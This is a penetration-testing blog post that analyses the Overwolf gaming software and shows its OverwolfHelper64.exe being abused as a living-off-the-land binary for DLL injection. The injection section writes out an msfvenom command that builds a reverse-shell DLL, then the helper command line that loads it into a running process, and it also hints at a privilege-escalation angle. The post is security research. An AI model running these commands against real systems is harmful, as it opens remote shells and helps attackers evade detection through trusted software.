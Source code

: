 ```yaml
---

layout: post

title: OverWolfHelperx64 - DLL Injection LOLBAS

gh-badge:

- star

- fork

- follow

tags:

- Windows

- Cyber Security

- Penetration Testing

comments: true

published: true

date: '2021-09-18'

---
```


Hello guys gals and non binary pals, today we're going to be looking at a program called OverWolf. Overwolf is a piece of software backed by Curse Forge, Intel, Logitech, Twitch, Ubisoft and a bunch of other companies that is designed to add extensions (or Mods) onto games. Some examples might include an overlay that shows your health or ammo count in a different style. But yeah -- you get the gist of it. It's a pretty interesting piece of software to analyze.

We're going to be using a pretty standard setup of [ProcMon](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon) from SysInternals and [ProcessHacker](https://processhacker.sourceforge.io/downloads.php).

Overwolf can be downloaded from the following URL:
(https://www.overwolf.com/apps/)[https://www.overwolf.com/apps/]

It's a pretty standard install, so I'm not going to into too much detail on the install process. Just keep clicking "Next" until you see OverWolf finish installing.

### Overwolf Analysis

First we're going to open up ProcMon, and add a Process Filter -- we will be filtering on the Command Line and ensure it contains the string Overwolf. This will likely give us the best results.

![[https://blog.spookysec.net/Pasted image 20210918140933.png]](https://blog.spookysec.net/Pasted image 20210918140933.png)

Afterwards, click "Add" and "Apply". Next up, pop on open Process Hacker and use the "Search" function to specify Overwolf. I've split my screens for ease of use:

![[https://blog.spookysec.net/Pasted image 20210918141142.png]](https://blog.spookysec.net/Pasted image 20210918141142.png)

Next, we're going to launch Overwolf and see what happens.

If setup correctly, we should see a lot of new processes spawn in Process Hacker and ProcMon should see a whole bunch of new WindowsAPI functions get called as well as Programs get launched.

![[https://blog.spookysec.net/Pasted image 20210918141331.png]](https://blog.spookysec.net/Pasted image 20210918141331.png)

The Process Hacker window was fairly standard -- there was one important thing to note, the Updater spawned as NT AUTHORITY\SYSTEM. This is a very important thing to note if you're developing a Local Privilege Escalation exploit. If you capture the traffic with Wireshark and can decipher the upgrade protocol, you might be able to develop a LPE exploit. I'm not going to dig through that rabbit hole today though :).

Here, we are primarily looking for DLLs or Programs that get loaded as part of launching OverWolf. Just browsing through the running processes, one in particular stood out to me, OverWolfHelper/OverWolfHelper64.exe, it queried information on a process name "Audiodg.exe", a native windows binary. I found this particular one in ProcMon, however, it's also possible to locate it over in Process Hacker.

![[https://blog.spookysec.net/Pasted image 20210918144412.png]](https://blog.spookysec.net/Pasted image 20210918144412.png)
*Located in ProcMon*

![[https://blog.spookysec.net/Pasted image 20210918144523.png]](https://blog.spookysec.net/Pasted image 20210918144523.png)
*Located In Process Hacker*

Interestingly enough it appears like OverwolfHelper takes two arguments -- path and pid. These (to me) are some pretrty interesting arguments to take, especially when the path is pointing to a DLL.

```
"C:\Program Files (x86)\Common Files\Overwolf\0.178.0.16\OverwolfHelper64.exe" "path=C:\Program Files (x86)\Overwolf\0.178.0.16\OWExplorerLauncher.dll pid=1596"
```

Doing some basic analysis on this, we can see that the PID actually points to the parent Overwolf process. Interestingly enough, it (OWExplorerLauncher.dll) doesn't appear to be loaded. However, in OverwolfHelper.exe it does.

![[https://blog.spookysec.net/Pasted image 20210918193328.png]](https://blog.spookysec.net/Pasted image 20210918193328.png)

### Injecting a DLL

Let's try injecting a DLL with OverWolfHelper and see how it goes. On Kali, we're going to generate a DLL using MSFVenom.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=eth0 LPORT=443 -f dll -o injectme.dll
```

![[https://blog.spookysec.net/Pasted image 20210918202742.png]](https://blog.spookysec.net/Pasted image 20210918202742.png)

After transporting the binary over, we're going to run the modified command:

```
"C:\Program Files (x86)\Common Files\Overwolf\0.178.0.16\OverwolfHelper64.exe" "path=C:\Users\Administrator\Downloads\injectme.dll pid=1596"
```


![[https://blog.spookysec.net/Pasted image 20210918203111.png]](https://blog.spookysec.net/Pasted image 20210918203111.png)

And checking over in our Terminal, it appears we have gotten a shell!

![[https://blog.spookysec.net/Pasted image 20210918203200.png]](https://blog.spookysec.net/Pasted image 20210918203200.png)

To figure out what's going on behind the scenes, we can pivot back over to ProcessHacker and go over to the "Network" tab and filter for our IP Address (192.168.0.198). It appears that it indirectly calls rundll32.exe

![[https://blog.spookysec.net/Pasted image 20210918205736.png]](https://blog.spookysec.net/Pasted image 20210918205736.png)

It appears that rundll32.exe spawned a child process, cmd.exe which would likely be a fairly large indicator of malware. I've created a directory called "notmalware" in my Netcat session and CD'd into that folder

![[https://blog.spookysec.net/Pasted image 20210918210210.png]](https://blog.spookysec.net/Pasted image 20210918210210.png)

It appears that the child process is indeed our Reverse Shell.

![[https://blog.spookysec.net/Pasted image 20210918210157.png]](https://blog.spookysec.net/Pasted image 20210918210157.png)

### Conclusion

It appears that OverwolfHelper (when it loads a DLL) runs rundll32 -- interestingly, our DLL isn't mentioned as any argument.

![[https://blog.spookysec.net/Pasted image 20210918210655.png]](https://blog.spookysec.net/Pasted image 20210918210655.png)
